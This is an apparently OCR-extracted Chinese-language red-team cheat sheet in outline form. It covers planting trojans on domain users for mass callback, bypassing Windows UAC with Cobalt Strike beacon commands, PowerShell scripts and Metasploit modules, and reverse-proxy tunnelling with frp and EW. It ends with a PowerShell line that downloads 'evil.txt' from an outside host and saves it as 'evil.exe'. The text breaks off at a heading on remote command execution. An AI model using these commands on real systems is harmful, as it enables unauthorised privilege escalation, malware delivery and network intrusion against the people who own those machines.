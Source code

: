 - 域内定点打击

	- 针对特定域用户挂马
	- 批量挂马实现域内用户批量上线
	- 指定域用户打击(域用户登录日志利用)

### 绕过windows安全机制

- BypassUAC(针对windows单机系统)

	- 使用CS 脚本快速bypass目标机器的UAC

		- 审计当前系统可用于BypassUAC的方式(此脚本不兼容win8)
		- beacon> elevate uac-eventvwr ok适用于win 7/8/8.1/10 32/64位
		- beacon> elevate uac-dll ok适用于win 7/8/10 32/64位
		- beacon> elevate uac-token-duplication ok适用于win7/8/8.1/10 64位
		- beacon> elevate uac-fodhelper ok适用于win10 64位
		- beacon> bypassuac ok beacon自带的bypass uac模块 适用于win7/10 32/64位
		- beacon> elevate uac-wscript ok 需要目标存在相应的漏洞 适用于win7/8/10

	- 使用外部UAC bypass脚本Bypass目标机器UAC

		- Invoke-PsUACme.ps1 适用于win7/8.1
		- Invoke-EnvBypass.ps1适用于win 10
		- Invoke-SDCLTBypass.ps1适用于win10(目前未成功)
		- Bypass-UAC.ps1 适用于win7/8 32/64位
		- FodhelperBypass.ps1(通过win10自带fodhelper.exe) 适用于win10
		- Akagi.exe-Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor(x86-32/x64 Windows 7/8/8.1/10 client, some methods however works on server version too)

	- 通过meterpreter shell对目标机器进行BypassUAC

		- win10 64位

			- exploit/windows/local/bypassuac_fodhelper

		- win7 64位

			- exploit/windows/local/bypassuac_eventvwr
			- exploit/windows/local/bypassuac
			- exploit/windows/local/bypassuac_injection

### 内网穿透

- 通过frp反向代理实现内网穿透
- 通过EW搭建Socks5反向代理实现内网穿透

### 文件下载执行

- powershell

	- 远程下载文件保存在本地

		- powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')

	- 远程执行命令
